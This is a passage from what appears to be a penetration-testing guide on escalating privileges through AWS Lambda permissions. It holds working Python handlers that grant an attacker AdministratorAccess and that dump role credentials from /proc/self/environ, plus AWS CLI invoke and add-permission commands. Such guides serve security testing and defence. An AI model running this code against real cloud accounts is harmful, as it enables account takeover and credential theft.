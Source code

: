 You could also **abuse the lambda role permissions** from the lambda function itself.\
If the lambda role had enough permissions you could use it to grant admin rights to you:

```python
import boto3
def lambda_handler(event, context):
    client = boto3.client('iam')
    response = client.attach_user_policy(
        UserName='my_username',
        PolicyArn='arn:aws:iam::aws:policy/AdministratorAccess'
    )
    return response
```

It is also possible to leak the lambda's role credentials without needing an external connection. This would be useful for **Network isolated Lambdas** used on internal tasks. If there are unknown security groups filtering your reverse shells, this piece of code will allow you to directly leak the credentials as the output of the lambda.

```python
def handler(event, context):
    sessiontoken = open('/proc/self/environ', "r").read()
    return {
        'statusCode': 200,
        'session': str(sessiontoken)
    }
```

```bash
aws lambda invoke --function-name <lambda_name> output.txt
cat output.txt
```

**Potential Impact:** Direct privesc to the arbitrary lambda service role specified.

{% hint style="danger" %}
Note that even if it might looks interesting **`lambda:InvokeAsync`** **doesn't** allow on it's own to **execute `aws lambda invoke-async`**, you also need `lambda:InvokeFunction`
{% endhint %}

### `iam:PassRole`, `lambda:CreateFunction`, `lambda:AddPermission`

Like in the previous scenario, you can **grant yourself the `lambda:InvokeFunction`** permission if you have the permission **`lambda:AddPermission`**

```bash
# Check the previous exploit and use the following line to grant you the invoke permissions
aws --profile "$NON_PRIV_PROFILE_USER" lambda add-permission --function-name my_function \
   --action lambda:InvokeFunction --statement-id statement_privesc --principal "$NON_PRIV_PROFILE_USER_ARN"
```

**Potential Impact:** Direct privesc to the arbitrary lambda service role specified.

### `iam:PassRole`, `lambda:CreateFunction`, `lambda:CreateEventSourceMapping`

